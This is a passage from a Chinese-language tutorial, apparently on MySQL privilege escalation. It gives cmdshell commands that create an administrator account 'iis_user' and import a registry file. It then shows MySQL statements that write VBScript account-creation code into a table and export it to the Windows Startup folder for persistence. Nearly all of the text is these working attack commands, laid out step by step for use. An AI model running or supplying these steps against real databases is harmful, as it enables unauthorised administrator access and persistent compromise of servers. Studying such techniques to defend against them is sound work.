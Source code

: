 具体用户示例：

```
1. select cmdshell('net user iis_user 123!@#abcABC /add'); 
2. select cmdshell('net localgroup administrators iis_user /add'); 
3. select cmdshell('regedit /s d:web3389.reg'); 
4. select cmdshell('netstat -an'); 
```

### **4.一些常见的Mysql命令**

**(1)连接到mysql 服务器**

```mysql
mysql -h 192.168.0.1 -u root -pantian365.com antian365 
```

**(2)查看所有数据库**

```mysql
show databases; 
```

**(3)使用某个数据库**

```mysql
use testdatabase; 
```

**(4)查看数据库中的所有表**

```mysql
show tables; 
```

**(5)在test数据库下创建一个新的表**

```mysql
create table a (cmd text); 
```

**(6)在表中插入内容添加用户命令**

```sql
1. insert into a values ("set wshshell=createobject (""wscript.shell"" ) " );  
2. insert into a values ("a=wshshell.run (""cmd.exe /c net user 1 1/add"",0) " );  
3. insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators 1 /add"",0) " ); 
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fywzgxony7j20mh087gme.jpg)

**(7)查询a表中所有的数据**

```mysql
select * from a ;
```

**(8)导出数据到系统某个目录下**

```mysql
select * from a into outfile "C:\\Users\\49974\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\a.vbs"; 
```
